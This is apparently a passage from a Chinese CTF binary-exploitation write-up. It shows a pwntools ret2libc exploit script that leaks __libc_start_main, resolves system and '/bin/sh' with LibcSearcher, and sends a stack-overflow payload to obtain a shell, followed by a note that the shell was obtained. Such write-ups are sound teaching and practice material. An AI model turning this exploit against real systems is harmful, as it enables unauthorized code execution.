 ```python

print('libc_start_main_addr: ' + hex(libc_start_main_addr))

libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print("get shell")
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()
```

运行payload脚本，可以成功得到shell。

![image-20230424223451333](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251054343.png)